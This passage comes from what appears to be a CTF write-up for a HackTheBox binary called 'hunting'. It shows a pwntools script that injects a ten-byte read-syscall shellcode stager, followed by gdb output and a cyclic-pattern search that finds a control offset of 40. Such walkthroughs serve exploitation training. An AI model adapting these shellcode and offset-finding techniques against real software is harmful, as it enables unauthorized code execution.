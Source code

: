 
Now, let's check if it works:-

```py
from pwn import *

context.arch = "i386"

p = process("./hunting")
shellcode = asm("""
	xor eax, eax
	mov al, 3
	xor ebx, ebx
	mov dl, 0xff
	int 0x80""")

log.info("SHELLCODE LENGTH:  %d" %(len(shellcode)))
pause()
p.send(shellcode)
p.interactive()
```

Running it and attaching `gdb` to one side:-

```asm
d4mianwayne@oracle:~/Pwning/HackTheBox$ python3 hunting.py 
[+] Starting local process './hunting': pid 23502
[*] SHELLCODE LENGTH:  10
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
$  
```

In `gdb` window:-

```asm
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffe9941b  →  "i686"
$ebx   : 0x1f      
$ecx   : 0xf       
$edx   : 0xffe9bfee  →  0x75682f2e ("./hu"?)
$esp   : 0xffe993f4  →  0x00000000
$ebp   : 0x1a      
$esi   : 0xffe9940b  →  0x0d4809be
$edi   : 0x19      
$eip   : 0x5754f1c8  →  "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
````
The `eip` points to the input we gave but certainly not from the start, let's check the offset:-

```asm
gef➤  pattern search kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa
[+] Searching 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa'
[+] Found at offset 40 (big-endian search) 
```
